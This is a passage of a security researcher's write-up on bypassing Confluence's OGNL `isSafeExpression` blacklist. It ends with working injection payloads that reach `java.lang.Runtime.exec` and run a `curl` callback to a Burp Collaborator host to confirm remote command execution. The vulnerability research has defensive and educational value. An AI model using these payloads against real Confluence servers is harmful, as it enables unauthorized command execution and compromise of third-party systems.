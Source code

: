 Example: `#{session}`, `#{attrs}`, etc. worked but we were not able to get our hands on request/response object, not even `#parameters`, neither were we able to set variables which implied there were some checks in place.

We had a look at our Confluence logs and found this

![image](https://user-images.githubusercontent.com/21000421/131547423-c457682d-e36e-4328-9e2f-1a17604e7543.png)

`isSafeExpression` method was being called before evaluating our OGNL expression which basically compiled our OGNL expression and looked if some malicious properties/methods were being called inside it.

![image](https://user-images.githubusercontent.com/21000421/131547997-4d0438ff-400a-432b-bfd7-399a4cae84c2.png)

Malicious variables, properties, node types and methods etc. are hardcoded in this static block which makes sense why #parameters #request didn’t work for us

![image](https://user-images.githubusercontent.com/21000421/131548054-0f0cd418-05cf-4a4a-9d91-339030fb5dd4.png)

Compiles OGNL Expression and calls containsUnsafeExpression(..)

![image](https://user-images.githubusercontent.com/21000421/131548159-6e601fdb-0e0a-4d7d-b960-273ac7c6317c.png)

Checks on the AST Node tree of our parsed expression for the hardcoded blacklisting

As we can see the `getClass()` method is also blacklisted Since, `"".getClass()` is the most commonly used way to get an instance of a class and perform Java reflection to execute commands.

We googled a bit and found this from [Orange](https://blog.orange.tw/2018/08/how-i-chained-4-bugs-features-into-rce-on-amazon.html) himself that we could also access `class` property using Array accessors instead of `getClass` method or `.class` property.

Payload would be - `queryString=aaa\u0027%2b#{\u0022\u0022[\u0022class\u0022]}%2b\u0027bbb`

which decodes to - `queryString=aaa'+#{""["class"]}+'bbb`

![image](https://user-images.githubusercontent.com/21000421/131548437-8fa0f088-7a59-417a-b35e-d11aa9ce97a0.png)

After that it was just as straightforward as it could be, we got an instance of `java.lang.Runtime` class, invoked `getRuntime()` and finally called the `exec` method to obtain our much needed command execution.


Payload - `queryString=aaa\u0027%2b#{\u0022\u0022[\u0022class\u0022].forName(\u0022java.lang.Runtime\u0022).getMethod(\u0022getRuntime\u0022,null).invoke(null,null).exec(\u0022curl <instance>.burpcollaborator.net\u0022)}%2b\u0027`


Which decodes to -

```
queryString=aaa'+
#{

""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("curl <instance>.burpcollaborator.net")

}
+'
 ```
  